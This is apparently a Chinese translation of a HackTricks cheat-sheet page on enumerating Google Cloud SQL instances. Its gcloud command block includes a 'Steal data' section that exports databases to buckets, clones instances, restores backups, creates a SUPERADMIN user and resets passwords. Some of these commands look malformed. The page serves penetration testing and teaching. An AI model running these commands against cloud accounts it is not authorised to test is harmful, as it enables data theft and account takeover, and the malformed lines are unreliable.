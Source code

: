 # GCP - SQL 枚举

<details>

<summary><strong>从零开始学习AWS黑客技术直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## [Cloud SQL](https://cloud.google.com/sdk/gcloud/reference/sql/)

Cloud SQL 实例是 **完全托管的，关系型MySQL、PostgreSQL** 和 **SQL Server数据库**。谷歌负责复制、补丁管理和数据库管理，以确保可用性和性能。[了解更多](https://cloud.google.com/sql/docs/)。

如果您发现这些实例使用公共IP，在互联网上可能由于配置错误而可以访问，您可以尝试**从互联网访问它们**。
```bash
# Cloud SQL
gcloud sql instances list
gcloud sql databases list -i <INSTANCE>
gcloud sql databases describe -i <INSTANCE> <DB>
gcloud sql backups list -i <INSTANCE>
gcloud sql backups describe -i <INSTANCE> <DB>

# Steal data
## Export
gcloud sql export sql <DATABASE_INSTANCE> gs://<CLOUD_STORAGE_BUCKET>/cloudsql/export.sql.gz --database <DATABASE_NAME>
## Clone
gcloud instances clone <SOURCE> <DESTINATION>
## Backup
gcloud sql backups restore BACKUP_ID --restore-instance <RESTORE_INSTANCE>
gcloud sql instances clone restore-backup <SOURCE> <DESTINATION>
## Users abuse
gcloud sql users list -i <INSTANCE>
gcloud sql users create SUPERADMIN -i <INSTANCE>
gcloud sql users set-password <USERNAME> -i <INSTANCE> --password <PWD>
```
### 导出数据库数据

作为示例，您可以按照 [Google 的文档](https://cloud.google.com/sql/docs/mysql/import-export/exporting) 来导出 Cloud SQL 数据库。

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您希望在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>
